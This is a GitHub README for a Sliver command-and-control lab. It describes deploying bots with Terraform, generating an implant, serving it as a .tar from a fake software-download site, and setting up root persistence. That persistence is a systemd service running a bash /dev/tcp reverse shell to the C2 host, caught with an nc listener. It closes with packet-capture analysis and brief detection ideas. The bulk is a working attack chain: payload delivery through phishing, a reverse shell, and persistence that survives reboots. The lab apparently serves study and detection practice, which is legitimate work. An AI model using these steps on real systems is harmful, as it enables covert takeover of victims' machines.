# C2Lab 

- **C2Lab** - A lightweight and customizable **Command &amp; Control (C2) lab using Sliver** for testing and analyzing **botnet communications, persistence, and network detection techniques.**

## 🚀 Project Overview

- This lab demonstrates how to set up a **C2 infrastructure using Sliver, deploy bots, establish communication over mTLS, and implement persistence** while capturing network **traffic for analysis.**


## 🛠 Features

- **Terraform (IaC) automation** for deploying the **C2 server and botnet machines.**
- **mTLS-secured C2 communication** over port **443.**
- **Fake website hosting** for social engineering.
- **Persistent reverse shell** with a **systemd service.**
- **PCAP captures** for analyzing C2 and bot interactions.
- **Detection techniques** for identifying encrypted C2 traffic.

## 📌 Steps Performed

1️⃣ **Infrastructure Deployment**
- Used Terraform to deploy (as in the below picture, also Terraform scripts are included in that repo):
  - C2 Machine
  - Botnet Machines (2 bots)
  

2️⃣ **Setting Up the C2 Server**
- SSH into C2 machine (you can change the username from the .tf script by the way)
  ```sh
  ssh azureuser@[C2 Machine Public IP Address]
  ```
- Installed Sliver
  ```sh
  curl https://sliver.sh/install|sudo bash
  sliver
  ```
- Generated an Implant (Malicious Payload), then Created a Listener on Port 443 using mTLS (See [Multiple Domains/Protocols Section](https://sliver.sh/docs?name=Getting+Started), if you want to use Multiple Protocols
  ```sh
  sliver > generate --mTLS [C2 Machine Public IP Address] --os linux --arch amd64 --save [Payload Name]
  chmod +x [Payload File]
  tar -cvpf [Payload File].tar /path/to/[Payload File]
  ```
  

3️⃣ **Fake Website Hosting (HTML File Includedd)**

- Created a phishing-style HTML page to simulate a real website.
- **Website Purpose:** The fake website mimics a Software Download Center, designed to appear legitimate while serving a malicious payload.
- The malicious file **(test_file.tar)**, a compressed archive containing the Sliver implant. The attacker packs the file into a **.tar archive to maintain file permissions**, ensuring that execution privileges remain intact when extracted by the victim.
  
   
- Hosted it on the C2 server
- Transferred the HTML file to **/var/www/html/index.html** on the C2 machine.
- Transferred the our **Malicious File test_file.tar** also to **/var/www/html/** on the C2 machine.
- Hosted the website using **Apache** by placing it in the default web root directory.
- Restarted the Apache service using
  ```sh
  sudo systemctl restart apache2
  ```
- This made the fake website accessible over HTTP.


4️⃣ **Establishing the Connection**

- I know this is a very simple trick, but let’s simulate a deceived victim who falls for the fake website. The unsuspecting user, thinking they are downloading legitimate software, clicks the Download button or manually retrieves the file using curl:
  ```sh
  curl -O http://[C2 Machine Public IP Address]/test_file.tar
  ```
- At this point, the victim has downloaded test_file.tar, unaware that the attacker intentionally packed it as a .tar archive to maintain execution permissions when extracted.
- After downloading, the victim extracts and executes the file:
  ```sh
  tar -xvf test_file.tar
  ./test_file
  ```
- This action initiates the C2 connection, allowing the attacker to gain control over the compromised system.
  
  
  
  
  

5️⃣ **Persistence Setup**
- Created a **systemd service (persistence.service)** for a persistent **reverse shell**
- Configured it to automatically restart upon failure
- Service Unit File Made (Port Chosen was 7777):
  ```sh
  [Unit]
  Description=Persistence Service
  After=network.target
  StartLimitIntervalSec=60  # Reset limit every 60 seconds
  StartLimitBurst=10        # Allow up to 10 restarts in this period
  
  [Service]
  ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/[C2 Machine Public IP Address]/[Desired Port] 0>&1'
  Restart=always
  RestartSec=10
  User=root
  
  [Install]
  WantedBy=multi-user.target
  ```
- This service continuously attempts to establish a reverse shell to C2 Machine on port X (7777 was chosen). If the process fails, systemd automatically restarts it, ensuring persistence.
- After creating the service file (/etc/systemd/system/persistence.service), we enable and start it:
  ```sh
  sudo systemctl daemon-reload
  sudo systemctl enable persistence
  sudo systemctl start persistence
  ```
  
- Each time the attacker's machine runs:
  ```sh
  nc -l [Desired Listening Port]
  ```
- After a few seconds, the bot will establish a reverse shell connection as a root user due to the persistent systemd service. This ensures that as long as the bot remains online, the attacker can repeatedly regain access whenever they listen on port 7777.

  

- There are many other ways for gaining a persistent **reverse shell** not just **systemd, but also you can add cron jobs, kernel implants, or SSH backdoors.**

6️⃣ **Traffic Capture & Analysis**

- Captured network traffic using tcpdump/Wireshark **(botnet-vm-0 Private IP Address: 10.2.1.5, botnet-vm-1 Private IP Address: 10.2.1.4, C2 Machine Public IP Address: 13.91.62.40)**:
  - Bot ➝ C2 (mTLS encrypted session): The bot-vm-0 (with private IP address of 10.2.1.5) downloads test_file.tar using an HTTP GET request. Screenshot from **capture_when_downloading_the_malicious_file.pcap**, apply **http.request.method == "GET"** to get intended packets more faster.

    
  - Bot ➝ C2: Executing the Malware (test_file). Screenshot from **capture_when_executing_the_malicious_file.pcap**, apply **ip.dst == 13.91.62.40** to get intended packets more faster.
    
    
  - Bot ⟷ C2: After execution, encrypted communication occurs between the bot and C2, where commands and responses are exchanged. Check **capture_from_C2_to_botnet.pcap**
  - Bot ➝ C2 (Persistence): A reverse shell connection is established to port 7777. Screenshot from **persistence_shell_on_port_7777.pcap**, apply **tcp.port == 7777** to get intended packets more faster.

    
- **Note:** Since all traffic is encrypted, detection techniques were explored. One key observation is that **Wireshark's "Resolve Network Addresses" option** was disabled by me, meaning IPs are not automatically translated into their associated domain names. However, enabling this option **(View > Name Resolution > Check Resolve Network Addresses)** reveals that our C2 server resolves to **softwaredownloadcenter.westus.cloudapp.azure.com.** This domain name, while appearing legitimate, could still raise suspicion upon closer inspection—especially in an environment where C2 traffic is actively monitored.

## 🔍 Detection Techniques

- Even though C2 traffic is encrypted (mTLS), potential detection methods include:
1. **Traffic Pattern Analysis**
    - Monitor unusual outbound connections from private IPs to an unknown public IP
    - Look for long-lived TLS connections
2. **Process Monitoring**
    - Detect execution of unknown binaries
    - Monitor systemd services for persistence
3. **DNS Analysis**
   - Identify suspicious domain resolution requests from bots
4. **Behavior-Based Rules (SIEM/IDS)**
   - Write a YARA rule for detecting Sliver implants
   - Use Suricata/Snort for C2 traffic anomaly detection

## 🔥 Enhancements & Additions Can be Added Later

- Explore **DGA (Domain Generation Algorithms)** to dynamically generate C2 domains.
- Demonstrate DNS tunneling (**like dnscat2for**) C2 instead of using direct IPs.
- Implement **HTTP/S-based C2 using custom headers** (e.g., mimicking legit traffic).

## 📜 Disclaimer
- This project is for educational and research purposes only. Any unauthorized use in real-world environments is strictly prohibited.
